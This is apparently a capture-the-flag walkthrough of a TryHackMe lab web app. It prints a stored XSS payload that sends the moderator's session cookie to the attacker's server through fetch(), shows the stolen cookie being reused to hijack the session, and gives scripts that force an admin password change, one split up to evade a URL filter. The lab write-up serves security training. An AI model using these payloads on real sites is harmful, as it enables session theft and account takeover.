---

## Introduction

- Difficulty: Medium
- Time: 60 mins

> Never click on links received from unknown sources. Can you capture the flags and get admin access to the web app?

Room Link: [Whats Your Name?](https://tryhackme.com/room/whatsyourname)

---

## Reconnaissance

Before recon, we add the IP address of the target to our `/etc/hosts` file, as instructed. Append the following at the end of your `hosts` file. Replace the IP with your target IP.

```
10.113.154.158 worldwap.thm
10.113.154.158 login.worldwap.thm
```

Now we run a basic `nmap` scan.

```
$ nmap -sS -sC -T4 -Pn worldwap.thm
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-23 23:21 +0530
Nmap scan report for worldwap.thm (10.113.154.158)
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 7a:57:ad:6a:66:44:94:27:26:2d:0b:73:b9:b3:eb:0a (RSA)
|   256 6b:c8:a0:41:6f:79:a7:01:4d:24:1b:80:4d:4d:89:38 (ECDSA)
|_  256 23:88:ac:d4:c1:c8:35:74:8f:3f:01:de:c0:e2:82:64 (ED25519)
80/tcp   open  http
| http-title: Welcome
|_Requested resource was /public/html/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

We have `22/ssh`, `80/http` and `8081/http` open. Let's check out each one.

## Access as moderator using XSS

Port 80 contains a simple dashboard with a **Register** button.




On checking `http://worldwap.thm:8081`, we see a blank page, but the source code contains some information (we don't know yet its useful or not).



Lets try registering to the website and see what happens.



Now when we try to login, we see the following message. Whatever credentials we use to register, we can never login.



If you notice carefully, there is this text written in the Register page.

> You can now pre-register! Your details will be reviewed by the site moderator.

So probably our details are stored somewhere temporarily. The site moderator visits some internal page to review our details. Well, we can try to perform XSS here. If we inject XSS payload in the input boxes, we can see whether our payload executes or not. Since we do not have access to the internal page, we can use `fetch` to send requests to our machine. If we see requests being made, we will be sure that our payload executes. Now to check in which of these input boxes our payload actually triggers, we use different endpoints in each input, as shown.

But before clicking Register with the payload, we setup a PHP server on port 80 to see the requests made.

```
$ php -S 0.0.0.0:80
[Tue Aug 25 21:12:52 2026] PHP 8.4.24 Development Server (http://0.0.0.0:80) started
```



Now click **Register** and keep an eye on the terminal for requests. After some time we see the following



Only the username, email and name endpoints were called. Not the password. So we can use one of them to exploit the XSS vulnerability and grab the session cookie of the site moderator. We craft the following payload for it.

```js
<script>fetch("http://192.168.137.35/cookie?="+btoa(document.cookie));</script>
```

After putting this payload in the Name field, and clicking on Register, we see the following in the terminal.



```
$ echo -n 'UEhQU0VTU0lEPXJxcnV0ZGptOTNzNTltY2hsbzdxajRmZW5m' | base64 -d
PHPSESSID=rqrutdjm93s59mchlo7qj4fenf 
```

Now we manually replace the `PHPSESSID` cookie in our browser, visit the home page and refresh the page to gain the site moderator's session.



If you see, there is a test post by moderator saying that login.worldwap.thm is operational. Let's visit `http://login.worldwap.thm/login.php`.



And we have the first flag!!

## Access as admin using XSS

Until this point, we have gained access to the moderator's account. Now we need to gain admin access.

We see there are two actions we can perform, **Change Password** and **Go to Chat**.

Let's see how the password change feature works.

Sending a dummy password and observing the HTTP request made, we see a POST request is made to `/change_password.php` endpoint, with param `new_password` and cookie `PHPSESSID`. We receive the following as a response.



Now let's visit the chat page. We can send messages to admin bot through the chat page. Let's test for XSS here.





So we have XSS vulnerability here. One thing to note here is that, everytime we load the admin chat page, the payload triggers. This is an example of Stored XSS. Our chat message is permanently stored on the server. So whenever the admin chat page is opened (which only me and admin can in this case), the payload will trigger. So it means, if we craft a payload which sends a password change request to the server, we can trigger password reset of the admin account. And we can then login to admin.

First try to craft the payload on your own. Then check my version.



```js
<script>
  window.onload = function() {
    var form = document.createElement("form");
    form.method = "POST";
    form.action = "http://login.worldwap.thm/change_password.php";
    var input = document.createElement("input");
    input.type = "hidden";
    input.name = "new_password";
    input.value = "password";
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
  };
</script>
```



Submitting this payload did not work right away, because if we check the source code, the URL that we supplied in the payload gets converted to an `<a>` tag, which will corrupt the payload. So we need a workaround so that the URL does not get modified.





```js
<script>
  window.onload = function() {
    var form = document.createElement("form");
    form.method = "POST";
    form.action = "ht" + "tp://" + "login.worldwap.thm/change_password.php";
    var input = document.createElement("input");
    input.type = "hidden";
    input.name = "new_password";
    input.value = "password";
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
  };
</script>
```



If we get redirected to the change password page, the payload is successful. Wait for some time, then logout and login with new credentials (`admin:password`). And we have the admin flag!


